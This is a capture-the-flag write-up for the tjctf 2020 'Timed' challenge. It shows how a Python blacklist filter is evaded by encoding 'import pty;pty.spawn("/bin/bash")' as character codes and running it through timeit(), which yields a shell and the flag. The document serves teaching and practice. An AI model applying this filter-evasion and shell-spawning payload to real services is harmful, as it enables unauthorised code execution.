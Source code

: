 ```yaml
---
layout: post
title: "Timed - tjctf"
date: "2020-05-26 20:23"
category: writeup
tags: [ctf, writeup, python]
---
```


This one is a cool blacklist bypass. It's pretty simple. You are presented a
text interface asking you to enter a python command.

```console
Type a command to time it!
```

Trying some simple functions seem to work fine, but....

```console
Type a command to time it!
print(1)
Runtime: 1.09672546387e-05

Type a command to time it!
import os
Hey, no hacking!
```

...there seems to be a blacklist of characters that get screened before the
command is run. We must obfuscate it somehow. By digging around, we can see
exactly what is in the blacklist and what isn't in the blacklist. Most
peculiarly, `timeit` is **NOT** in the blacklist.

> Sidenote: it is hinted that `timeit` could be a possibility because it is
> visible in the source whenever we provide invalid python code for the program
> to execute.

```console
Type a command to time it!
arst
Traceback (most recent call last):
  File "/timed.py", line 36, in <module>
    time1=t.timeit(1)
  File "/usr/lib/python2.7/timeit.py", line 202, in timeit
    timing = self.inner(it, self.timer)
  File "<timeit-src>", line 6, in inner
    arst
NameError: global name 'arst' is not defined
Runtime: 0

Type a command to time it!
12.,,
Traceback (most recent call last):
  File "/timed.py", line 31, in <module>
    t=timeit.Timer(res)
  File "/usr/lib/python2.7/timeit.py", line 129, in __init__
    compile(setup + '\n' + stmt, dummy_src_name, "exec")
  File "<timeit-src>", line 2
    12.,,
        ^
SyntaxError: invalid syntax
```

We can do something like the following in order to trick the program into
executing blacklisted commands:

```python
# We want to execute the following python
want_exec = 'import pty;pty.spawn("/bin/bash")'
# So we obfuscate it a bit
obfuscated = [ord(x) for x in want_exec]
# and we can just reverse it using a join-map
assert want_exec == ''.join(map(chr, obfuscated))

# Payload:
timeit(''.join(map(chr, [105, ...])))
```

By pasting the payload into the program, we get a shell:

```console
Type a command to time it!
timeit(''.join(map(chr, [105, ...])))
bash: /root/.bashrc: Permission denied
nobody@c51f99923c23:/$ ls
ls
bin   dev  flag.txt  lib    media  opt   root  sbin  sys       tmp  var
boot  etc  home      lib64  mnt    proc  run   srv   timed.py  usr
nobody@c51f99923c23:/$ cat flag.txt
cat flag.txt
tjctf{iTs_T1m3_f0r_a_flaggg}
```
